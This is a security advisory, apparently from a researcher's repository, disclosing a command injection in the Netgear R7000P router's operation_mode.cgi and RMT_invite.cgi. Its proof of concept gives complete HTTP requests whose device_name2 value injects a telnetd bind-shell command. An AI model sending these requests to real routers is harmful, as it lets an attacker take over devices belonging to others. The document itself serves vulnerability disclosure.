



# Netgear Vulnerability

Vendor:Netgear

Product:R7000P

Version:1.3.3.154

Type:Command Execution

Author:Jiaqian Peng

Institution:pengjiaqian@iie.ac.cn


## Vulnerability description

We found an Command Injection vulnerability in Netgear router with firmware which was released recently, allows remote attackers to execute arbitrary OS commands from a crafted request.

**Remote Command Execution**

In `httpd` binary:

In the router's `operation_mode.cgi` function, `device_name2` is directly passed by the attacker, so we can control the `device_name2` to attack the OS.

As you can see here, the input has not been checked. And then,call the function `acosNvramConfig_set ` to store this input.

<div  align="center"></div>

Eventually, in `cgi-bin/RMT_invite.cgi` function, the initial input will be extracted and cause command injection.

<div  align="center"></div>

**Supplement**

The trigger point of this vulnerability is deep in the program path, so we recommend that the string content should be strictly checked when extracting user input.

Vulnerability trigger steps:

* set `device_name2`, in `operation_mode.cgi`
* visit the `cgi-bin/RMT_invite.cgi`


## PoC

We set `device_name2` as **%24%28telnetd+-l+%2Fbin%2Fsh+-p+8888+-b+0.0.0.0%29**, in `operation_mode.cgi`

```http
POST /operation_mode.cgi?id=dc4e3ad6e125dab246f8cbb03bac1501d458ac8a431dc94cb7bef856f3f35454 HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 709
Origin: http://192.168.1.1
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://192.168.1.1/WLG_opmode_repeating_dual_band.htm
Upgrade-Insecure-Requests: 1

action=%E5%BA%94%E7%94%A8&operation_type=3&device_name2=%24%28telnetd+-l+%2Fbin%2Fsh+-p+8888+-b+0.0.0.0%29&pre_mode=router&enable_operation_mode=repeating&wds_ena=0&wds_type=1&ptp_mac=%3A%3A%3A%3A%3A&ptp_sta_assoc=1&pmp_mac1=%3A%3A%3A%3A%3A&pmp_mac2=%3A%3A%3A%3A%3A&pmp_mac3=%3A%3A%3A%3A%3A&pmp_mac4=%3A%3A%3A%3A%3A&pmp_sta_assoc=1&wla_secu_type=WPA2-PSK&wla_channel=0&lan_ipaddr=192.168.1.&wla_repeater_ip=&wds_ena_an=0&wds_type_an=1&ptp_mac_an=%3A%3A%3A%3A%3A&ptp_sta_assoc_an=1&pmp_mac1_an=%3A%3A%3A%3A%3A&pmp_mac2_an=%3A%3A%3A%3A%3A&pmp_mac3_an=%3A%3A%3A%3A%3A&pmp_mac4_an=%3A%3A%3A%3A%3A&pmp_sta_assoc_an=1&wlg_secu_type=WPA2-PSK&wlg_channel=153&lan_ipaddr_an=192.168.1.&wlg_repeater_ip=&show_wps_alert=0
```

visit the `cgi-bin/RMT_invite.cgi`

```http
POST /cgi-bin/RMT_invite.cgi?id=570351a5f945c0ca26365de7edebd9fc9d9d4587f8b1e923bca34636ad58f341 HTTP/1.1
Host: 192.168.1.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Origin: http://192.168.1.1
Authorization: Basic YWRtaW46YWRtaW4=
Connection: close
Referer: http://192.168.1.1/BAS_ether.htm
Upgrade-Insecure-Requests: 1

TXT_remote_login=pjqwudi&TXT_remote_password=abc123&BTN_reg=Register
```


## Result

Get a shell!

<div  align="center"></div>
